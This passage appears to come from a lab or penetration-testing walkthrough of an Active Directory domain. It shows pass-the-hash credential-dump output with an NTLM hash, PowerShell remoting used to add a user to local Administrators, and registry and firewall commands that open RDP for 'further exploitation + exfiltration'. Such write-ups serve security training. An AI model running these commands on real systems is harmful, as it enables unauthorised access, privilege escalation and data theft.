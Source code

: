 ```sh
user    : uatadmin
domain  : nebula.cosmos.local
program : powershell.exe
impers. : no
NTLM    : 271b74be505cd48cef768d0d973e59e7
  |  PID  4428
  |  TID  1292
  |  LSA Process is now R/W
  |  LUID 0 ; 1820938 (00000000:001bc90a)
  \_ msv1_0   - data copy @ 0000026480392C00 : OK !
  \_ kerberos - data copy @ 0000026480082500
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000026481000000 (32) -> null
```

using the NTLM hash instead of the password to authenticate launches a new PowerShell process that runs with the `UATADMIN` credentials. 

i can then add `bilal` to the local Administrators group on both the `UATADMIN` and `UATSRV` machines. 

```sh
PS C:\Windows\system32> $sess = New-PSSession -ComputerName uatsrv.nebula.cosmos.local 
PS C:\Windows\system32> Enter-PSSession -Session $sess [uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> net localgroup administrators /add nebula\bilal 

The command completed successfully.
```

finally, let's enable RDP on the machine. i'll modify the Windows Registry to allow RDP connections, then enable the necessary firewall rule. this will give me GUI access to the machine, which could come in handy for further exploitation + exfiltration.

```sh
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
uatsrv 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
Ok.

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp
```
